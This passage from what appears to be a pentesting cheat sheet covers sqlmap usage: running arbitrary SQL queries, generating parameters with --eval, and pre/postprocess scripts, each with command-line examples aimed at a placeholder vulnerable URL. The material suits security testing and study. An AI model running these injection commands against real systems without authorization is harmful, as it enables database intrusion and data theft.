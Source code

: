```ps1
sqlmap -u "http://example.com/vulnerable.php?id=1" --sql-query="SELECT version()"
```

### Evaluate Python Code

The `--eval` option lets you define or modify request parameters using Python. The evaluated variables can then be used inside the URL, headers, cookies, etc.

Particularly useful in scenarios such as:

* **Dynamic parameters**: When a parameter needs to be randomly or sequentially generated.
* **Token generation**: For handling CSRF tokens or dynamic auth headers.
* **Custom logic**: E.g., encoding, encryption, timestamps, etc.

```ps1
sqlmap -u "http://example.com/vulnerable.php?id=1" --eval="import random; id=random.randint(1,10)"
sqlmap -u "http://example.com/vulnerable.php?id=1" --eval="import hashlib;id2=hashlib.md5(id).hexdigest()"
```

### Preprocess And Postprocess Scripts

```ps1
sqlmap -u 'http://example.com/vulnerable.php?id=1' --preprocess=preprocess.py --postprocess=postprocess.py
```

#### Preprocessing Script (preprocess.py)

The preprocessing script is used to modify the request data before it is sent to the target application. This can be useful for encoding parameters, adding headers, or other request modifications.

```ps1
--preprocess=preprocess.py    Use given script(s) for preprocessing (request)
```

**Example preprocess.py**:

```ps1
#!/usr/bin/env python
def preprocess(req):
    print("Preprocess")
    print(req)
```

#### Postprocessing Script (postprocess.py)

The postprocessing script is used to modify the response data after it is received from the target application. This can be useful for decoding responses, extracting specific data, or other response modifications.

```ps1
--postprocess=postprocess.py  Use given script(s) for postprocessing (response)
```

## Reduce Requests Number
